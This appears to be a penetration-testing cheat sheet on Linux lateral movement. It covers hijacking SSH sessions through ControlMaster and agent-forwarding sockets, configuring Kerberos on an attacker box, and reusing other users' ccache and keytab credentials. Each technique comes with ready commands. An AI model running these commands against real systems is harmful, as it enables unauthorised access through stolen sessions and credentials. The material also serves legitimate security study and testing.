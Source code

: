# Linux

### SSH Hijacking with ControlMaster

ControlMaster allows to share multiple SSH sessions of a single Network Connection. Enabled by having a "~/.ssh/config" file:

```text
Host *
    ControlPath ~/.ssh/cm/%r@%h:%p
    ControlMaster auto
    ControlPersist 5m
```

This stores the socket file as `<user>@<host>:<port>` in `~/.ssh/cm`. ControlPersist declares how long this file should exist after the last connection is closed. When a victim SSHs into a target, this file will be created and we can use it to piggyback into the target as well:

```text
ssh -S ~/.ssh/cm/<socketfile> user@target
```

This technique only allows to ssh into the specific servers we have socket files for.

### SSH Hijacking with SSH Agent Forwarding

In this scenario a user connects to a target server via an intermediate server that forwards the connection. The attacker is on the intermediate server. This requires `ForwardAgent yes` in the users SSH config & `AllowAgentForwarding yes` in sshd\_config. The compromised user needs to have an active connection to the intermediate server at the time of exploitation.

```text
ps aux | grep ssh
ls -lah /tmp
SSH_AUTH_SOCK=/tmp/ssh-<..>/agent.<pid> ssh-add -l
SH_AUTH_SOCK=/tmp/ssh-<..>/agent.<pid> ssh user@target
```

This technique allows to SSH into any server the users "cached keys" have access to.

### Kerberos

#### Setup on Linux Attacker Box

Add target box to /etc/hosts and install:

```text
sudo apt install krb5-user
```

#### /etc/krb5.conf

```text
[libdefaults]
        default_realm = EXAMPLE.COM
        dns_canonicalize_hostname = false

[realms]
        EXAMPLE.COM = {
        kdc = dc1.example.com:88
        admin_server = dc1.example.com:464

}

[domain_realm]
        .example.com = EXAMPLE.COM
        example.com = EXAMPLE.COM
```

#### General

```text
kinit
klist
env | grep KRB5CCNAME
```

All \(or nearly all?\) impacket tools support "-k" parameter and can use kerberos, e.g. "GetUserSPNs.py", "GetADUsers.py", "getST.py".

#### Ldapsearch

Ldapsearch using Kerberos authentication:

```text
ldapsearch -Y GSSAPI -H ldap://<target> -D "<user>@<domain>" -W -b "dc=domain,dc=domain" "servicePrincipalName=*" servicePrincipalName
```

#### CCACHE

Check /tmp for krb5\* files. We can directly use these if we can access them after making a copy and changing ownership to our user:

```text
kdestroy
export KRB5CCNAME=/tmp/krb5cc_<user>
klist
```

#### Keytab

Keytab files are sort of stored kerberos principal names & keys for scripts. Create via:

```text
ktutil
addent -password -p <user>@<domain> -k 1 -e rc4-hmac
<enter password>
wkt /tmp/<user>.keytab
quit
```

Use via:

```text
kinit <user>@<domain> -k -t /tmp/<user>.keytab
klist
kinit -R
```



